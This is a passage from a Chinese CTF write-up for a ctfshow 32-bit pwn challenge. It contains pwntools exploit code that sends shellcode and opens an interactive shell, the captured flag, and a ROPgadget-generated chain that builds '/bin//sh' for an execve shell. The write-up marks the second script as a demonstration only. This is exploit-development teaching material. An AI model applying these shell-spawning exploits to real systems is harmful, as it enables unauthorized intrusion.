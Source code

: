 ```python
payload += p32(0x1000) 
payload += p32(0x7) 
payload += p32(read_addr) 
payload += p32(plt_start_adr) 
payload += p32(0x0) 
payload += p32(plt_start_adr) 
payload += p32(len(shellcode))
r.recvuntil("    * *************************************                           ")
r.sendline(payload)
r.sendline(shellcode)
r.interactive()
```





拿到flag：

```
ctfshow{502d38cc-ccde-4a04-9945-41ad670acc94}
```



----------------

==这里下面只是演示！！！！！！实际上它的read进行了限制，下面的脚本发送的是0x9f的数据，所以超过了实际情况，打不到内核！==



使用ROPgadget工具可以自动化生成rop链，但是需要满足条件：1.静态编译；==2.gets函数或者read函数并且该read函数可以溢出大量的字节，否则就无法实现自动化ROP==

```
ROPgadget --binary pwn --ropchain
```

生成之后，直接拉到最底下，一堆p+=的地方，全部复制粘贴

并且python脚本要加上，其他函数变量命名不能是p，因为rop生成的链命名就是p

```
from struct import pack
```



所以如果能打通，那么最终脚本为：

```python
# -*- coding: utf-8 -*-
from pwn import *
from LibcSearcher import *
from struct import pack
context(arch='i386',os='linux',log_level='debug')

ip = "pwn.challenge.ctf.show"
port = 28252

r = remote(ip,port)
elf = ELF('./pwn')

# Padding goes here
p = b'a'*(0x12 + 0x04)

p += pack('<I', 0x0806dfeb) # pop edx ; ret
p += pack('<I', 0x080da060) # @ .data
p += pack('<I', 0x080a8dd6) # pop eax ; ret
p += b'/bin'
p += pack('<I', 0x08056cc5) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x0806dfeb) # pop edx ; ret
p += pack('<I', 0x080da064) # @ .data + 4
p += pack('<I', 0x080a8dd6) # pop eax ; ret
p += b'//sh'
```